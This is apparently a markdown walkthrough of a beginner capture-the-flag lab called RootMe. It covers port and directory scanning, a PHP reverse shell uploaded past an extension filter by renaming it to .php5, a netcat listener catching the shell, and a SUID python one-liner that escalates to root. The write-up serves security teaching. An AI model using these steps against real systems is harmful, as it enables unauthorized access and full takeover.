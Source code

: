 # RootMe
A ctf for beginners, can you root me?
![](Images/default_tryhackme.png)
## Task 2
First, let's get information about the target. Here is the **nmap** scan.
```
# Nmap 7.91 scan initiated Mon Jun  7 14:53:05 2021 as: nmap -sC -sV -A -oN nmap/scan 10.10.88.87
Nmap scan report for 10.10.88.87
Host is up (0.22s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jun  7 14:53:41 2021 -- 1 IP address (1 host up) scanned in 35.82 seconds
```
Seems like we got ssh port open and http port. Let's take look into that web site.

![](Images/web.png)

1. Scan the machine, how many ports are open?
```
 2
```
2. What version of Apache is running? 
```
2.4.29
```
1. What service is running on port 22? 
```
ssh
```
5. What is the hidden directory?

Let's run a dirb or gobuster to find the hidden directory on our website. 

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT_FILE: dirb.scan
START_TIME: Mon Jun  7 15:01:41 2021
URL_BASE: http://10.10.88.87/
WORDLIST_FILES: /opt/seclist/Discovery/Web-Content/raft-medium-directories.txt
OPTION: Not Recursive

-----------------

GENERATED WORDS: 29984

---- Scanning URL: http://10.10.88.87/ ----
==> DIRECTORY: http://10.10.88.87/js/
==> DIRECTORY: http://10.10.88.87/css/
==> DIRECTORY: http://10.10.88.87/uploads/
==> DIRECTORY: http://10.10.88.87/panel/
```
Seems like we got uploads and something call panel. When we take a look into that panel directory. You can see upload section. This must be our **hidden directory**.

![](Images/panel.png)

## Task 3
Now we got a upload directory. We can use a php-reverse-shell to get a shell. 

We can't upload php files to this website.I tried other extensions such as jpg, and that uploaded successfully. I tried changing the magic number from PHP to jpg of “FF F8 FF DB“. That uploaded the php reverse-shell script but it won’t execute. Then, I realized maybe it is just filtering the .php extension, so I renamed the script to a .php5 extension. And that uploaded successfully and executed and give me a shell. 

![](Images/shell.png)
```bash
┌─[visith@parrot]─[~/CTF/thm/root_me]
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.2.53] from (UNKNOWN) [10.10.88.87] 35046
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:47:11 up 26 min,  0 users,  load average: 0.00, 0.02, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ /usr/bin/script -qc /bin/bash /dev/null
www-data@rootme:/$ ls
ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@rootme:/$ 
```

Looks like we got a lot of directories. we can go on by one and search for user.txt or you can use this find command. It will make it fast.
```bash
find / -type f -name user.txt 2>/dev/null
```
Let's see this find command in action.
```bash
www-data@rootme:/$ find / -type f -name user.txt 2>/dev/null
find / -type f -name user.txt 2>/dev/null
/var/www/user.txt
www-data@rootme:/$ cat /var/www/user.txt             
cat /var/www/user.txt
THM{flag_here}
```
Now we need to get to root user. In their hints they told about SUID. Let's take look into it.

```bash
www-data@rootme:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/at
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```
Looks like python little bit sus. Let's search about python SUID execution on GTFObins. 

![](Images/suid.png)

Let's do it. First you need to get /usr/bin/ directory to execute our command. 
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
Let's see it in action.
```bash
www-data@rootme:/usr/bin$ ./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
<hon -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
#  find / -type f -name root.txt
 find / -type f -name root.txt
/root/root.txt
# cat /root/root.txt
cat /root/root.txt
THM{Flag_here}
# 
```

We pwn it... Thx for reading 


![](https://tenor.com/7FNY.gif)
